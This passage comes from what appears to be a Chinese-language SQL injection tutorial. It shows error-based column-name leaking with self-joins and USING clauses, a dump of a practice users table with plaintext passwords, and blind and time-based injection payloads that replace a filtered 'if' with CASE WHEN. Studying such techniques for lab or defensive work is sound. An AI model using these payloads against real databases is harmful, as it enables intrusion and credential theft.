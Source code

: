 ##### joion

我们可以利用爆错，借助join和using爆出列名，id为第一列，username为第二列，可以逐个爆出，爆出全部列名之后即可得到列内数据。

```sql
mysql> select * from (select * from users as a join users b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from (select * from users as a join users b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from (select * from users as a join users b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
mysql> select * from (select * from users as a join users b using(id,username))c;
ERROR 1060 (42S21): Duplicate column name 'password'
mysql> select * from (select * from users as a join users b using(id,username,password))c;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | jiamu      |
+----+----------+------------+
13 rows in set (0.02 sec)
```

### 过滤其他关键字绕过

#### 过滤 if 语句绕过

如果过滤了 if 关键字的话，我们可以使用case when语句绕过：

```sql
if(condition,1,0) <=> case when condition then 1 else 0 end
```

下面的if语句和case when语句是等效的：

```sql
0' or if((ascii(substr((select database()),1,1))>97),1,0)#

0' or case when ascii(substr((select database()),1,1))>97 then 1 else 0 end#
```

```sql
mysql> select * from users where id ='0' or case when ascii(substr((select database()),1,1))>97 then sleep(3) else 0 end;
Empty set (39.12 sec)
```
